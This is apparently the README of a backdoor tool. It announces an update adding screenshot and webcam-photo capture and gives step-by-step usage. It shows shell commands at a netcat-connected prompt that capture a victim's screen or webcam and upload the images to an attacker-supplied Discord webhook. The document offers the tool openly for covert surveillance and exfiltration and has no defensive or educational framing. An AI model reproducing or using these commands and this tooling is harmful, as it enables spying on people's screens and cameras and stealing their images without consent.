 THIS BACKDOOR WAS UPDATED ON 25-07-2022 / 01-12-2022

IN THIS UPDATE I REMOVED THE "server.py", I ADDED THE SCREENSHOT AND WEBCAM (only photo) FEATURE IN THE BACKDOOR ITSELF :)

Here u can see how to run the screenshot and webcam feature:-

1. Make a discord server.
2. Copy it's webhook url (see it on youtube, it's fucking easy)

NOW ASSUME THAT IT'S THE SHELL...

For Screenshot:
```SHELL
[*] >> screen https://discord.com/api/webhooks/your_webhook_url_that_u_copied
```
For Webcam:
```SHELL
[*] >> webcam https://discord.com/api/webhooks/your_webhook_url_that_u_copied
```

NOTE:- This is made for --> NCAT/NETCAT
